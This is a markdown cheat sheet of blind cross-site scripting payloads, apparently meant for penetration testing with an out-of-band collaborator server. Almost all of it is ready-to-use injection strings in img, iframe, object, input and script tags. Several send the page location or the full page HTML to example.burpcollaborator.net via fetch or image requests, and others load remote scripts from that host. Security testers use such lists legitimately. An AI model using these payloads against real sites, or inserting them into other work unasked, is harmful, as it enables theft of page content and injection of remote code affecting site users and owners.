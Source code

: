 Blind XSS Payloads
==================

The following list includes some blind XSS payloads that can be used to proof evaluation of JavaScript using out-of-band communication.


## Image only: HTML Injection without JavaScript
```html
'"><img src="https://example.burpcollaborator.net/image">
```

## Image-Tag XSS Payloads
```html
'"><img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://"+btoa(document.location)+".example.burpcollaborator.net/image-dns?"'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='fetch("https://example.burpcollaborator.net/image-xss-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})'>
```

## iFrame XSS Payloads
```html
'"><iframe src='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></iframe>

'"><iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>

'"><iframe srcdoc='<script>fetch("https://example.burpcollaborator.net/iframe-srcdoc-post",{method:"POST",body:btoa(parent.document.body.innerHTML),mode:"no-cors"})</script>'></iframe>
```

## Object XSS Payloads
```html
'"><object data='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></object>
```

## Input field
```html
<input onfocus='fetch("https://example.burpcollaborator.net/imput-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})' autofocus>
```

## Script-Tag
```html
'"><script src=https://example.burpcollaborator.net/script-tag></script>

'"><script type="text/javascript" src="https://example.burpcollaborator.net/script-tag-type"></script>

'"><script type="module" src="https://example.burpcollaborator.net/script-tag-module"></script>
'"><script nomodule src="https://example.burpcollaborator.net/script-tag-nomodule"></script>
```
